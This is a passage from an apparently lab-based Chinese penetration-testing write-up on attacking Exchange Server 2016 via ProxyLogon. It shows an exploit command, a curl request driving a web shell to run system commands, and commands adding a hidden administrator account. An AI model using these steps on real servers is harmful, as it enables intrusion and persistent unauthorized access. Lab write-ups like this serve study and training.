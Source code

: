 
经过测试，发现存在版本漏洞 `Exchange Server 2016 [ProxyLogon](https://github.com/hausec/ProxyLogon)漏洞`

### exchange 服务 getshell

`Poc`

```plain
proxychains python3 exprolog.py -t 172.22.3.9 -e administrator@xiaorang.lab

proxychains curl --request POST --url https://172.22.3.9/owa/auth/ncyev.aspx --header 'Content-Type: application/x-www-form-urlencoded' --data 'request=Response.Write(new ActiveXObject("WScript.Shell").exec("whoami /all").stdout.readall())' -k
```

[![](assets/1709193375-32b2fc77b9e36445fffe54a7fb59e4c4.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240227205043-d1e67318-d56e-1.png)

利用漏洞，进行添加 `管理员用户test`

```plain
net user test P@ssw0rd /add
net localgroup administrators test /add
```

这里有个点，kali `rdesktop`链接失败，可安装 `Remmina`代替，这里我们采取的方法是用 windows 物理机 `mstsc`链接  
参考：[Kali Linux 2020.02 安装 Remmina 远程桌面客户端\_kali remmina-CSDN 博客](https://blog.csdn.net/qq89115156/article/details/106853619)

[![](assets/1709193375-784e0ac40b6b9c8b9ff07a862dee8f1e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240227205050-d589710a-d56e-1.png)
